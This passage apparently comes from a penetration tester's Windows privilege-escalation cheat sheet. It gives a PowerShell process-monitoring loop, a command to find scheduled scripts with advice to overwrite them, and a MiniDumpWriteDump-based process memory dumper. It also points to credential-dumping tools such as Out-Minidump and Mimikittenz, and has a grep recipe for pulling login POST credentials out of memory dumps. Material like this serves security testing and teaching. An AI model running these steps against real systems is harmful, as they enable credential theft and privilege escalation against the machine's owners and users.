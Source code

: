 	  ```powershell
	  while($true){
	    $process = Get-WmiObject Win32_Process | Select-Object CommandLine
	    Start-Sleep 1
	    $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
	    Compare-Object -ReferenceObject $process -DifferenceObject $process2
	  }
	  ```
	- Look for scripts that could be recurrent
    ```cmd
    dir /a /r /q /s /b *.bat *.ps1 *.vbs *.eps
    ```
	Try to overwrite them, `icalcs [FILE]` to see permissions

### Memory Dump

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

public class Dumper {
    [DllImport("dbghelp.dll", SetLastError = true)]
    private static extern bool MiniDumpWriteDump(
        IntPtr hProcess, int processId, IntPtr hFile, int dumpType,
        IntPtr expParam, IntPtr userStreamParam, IntPtr callbackParam);

    public static void CreateMiniDump(int pid, string filePath) {
        using (var fs = new System.IO.FileStream(filePath, System.IO.FileMode.Create)) {
            Process process = Process.GetProcessById(pid);
            MiniDumpWriteDump(
                process.Handle, pid, fs.SafeFileHandle.DangerousGetHandle(), 2,
                IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
"@

[Dumper]::CreateMiniDump([PID], "C:\dumps\notepad.dmp")
```
- [PowerSploit’s](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) `Out-Minidump`
- `procdump64.exe` from the [sysinternals tools page](https://live.sysinternals.com/)
- [Mimikittenz](https://github.com/putterpanda/mimikittenz) -> Add regex
#### Password Hunting
If there is a web application, look for how it handles the login and get the structure of the POST request:
```bash
grep -aoE '[POST_REQUEST]' [FILE.dmp]
```
The options on `grep` are:
- `-a` - Process a binary file as if it were text.
- `-o` - Print only the matched (non-empty) parts of a matching line
- `-E` - Interpret PATTERNS as extended regular expressions
### Named Pipes

